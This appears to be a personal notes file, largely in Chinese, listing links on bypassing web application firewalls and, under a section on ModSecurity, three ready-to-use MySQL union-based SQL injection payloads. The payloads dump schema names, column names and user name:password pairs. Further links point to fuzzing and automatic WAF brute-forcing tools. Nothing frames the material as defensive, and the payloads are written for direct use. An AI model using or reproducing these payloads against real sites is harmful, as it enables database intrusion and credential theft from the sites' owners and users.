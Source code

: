 

0x00 links
waf绕过技巧库:
http://wafbypass.me/w/index.php/Main_Page  may be a best one
https://xianzhi.aliyun.com/forum/attachment/big_size/wafbypass_sql.pdf good
http://www.freebuf.com/articles/web/10099.html   WAF绕过的奇技淫巧
http://tech-technical.com/index.php/2015/11/11/waf-bypass-sql-injection-tutorial/ 老外的技巧
http://webvuln.blogspot.hk/2015_04_01_archive.html 测试fuzz
http://www.wooyun.org/bugs/wooyun-2014-089426　　good
https://security.tencent.com/index.php/blog/msg/66  good
https://forum.90sec.org/forum.php?mod=viewthread&tid=9133  90sec新思路
http://www.idiot-attacker.com/2016/02/macam-macam-kode-bypass-waf.html good
http://wooyun.org/bugs/wooyun-2010-0121291
http://wooyun.org/bugs/wooyun-2010-0115175 fuzz2bypass
http://drops.wooyun.org/tips/7883 
http://www.securityidiots.com/Web-Pentest/WAF-Bypass/
http://www.pentest.net.cn/post/7
http://www.mottoin.com/86886.html
http://mp.weixin.qq.com/s?__biz=MzIyNjQzMjcyNw==&mid=2247483860&idx=1&sn=fa19f02e29d25f5f6852af27451ae4a9&scene=23&srcid=0815JYA53l0Bk3PMkhzRlKUh#rd
https://forum.90sec.org/forum.php?mod=viewthread&tid=10531  waf的fuzz思路
https://zhuanlan.zhihu.com/p/25724834    等价替换绕过
https://zhuanlan.zhihu.com/p/25678670    fuzz注释绕过
0x01 bypassed
1>modsecurity
id=-29 /*!30000union select 1,2,group_concat(0x7e,0x27,unhex(Hex(cast(schema_name as char))),0x27,0x7e),version(),5,6,7,8 from `information_schema`.schemata*/--
id=-29 /*!30000union select 1,2,group_concat(0x7e,0x27,unhex(Hex(cast(column_name as char))),0x27,0x7e),version(),5,6,7,8 from `information_schema`.columns where table_name=0x75736572*/--
id=-29 /*!30000union select 1,2,group_concat(0x7e,0x27,unhex(Hex(cast(name as char))),0x3a,unhex(Hex(cast(password as char))),0x27,0x7e),version(),5,6,7,8 from user*/--


## 资料

MYSQL注入绕某狗fuzz工具-python多线程

https://www.t00ls.net/viewthread.php?tid=42865&highlight=fuzz


waf绕过技巧库

http://3xp10it.cc/web/2016/08/12/waf%E7%BB%95%E8%BF%87%E6%8A%80%E5%B7%A7%E5%BA%93/

xwaf--waf自动暴破

http://3xp10it.cc/web/2016/11/02/xwaf-waf%E8%87%AA%E5%8A%A8%E6%9A%B4%E7%A0%B4/
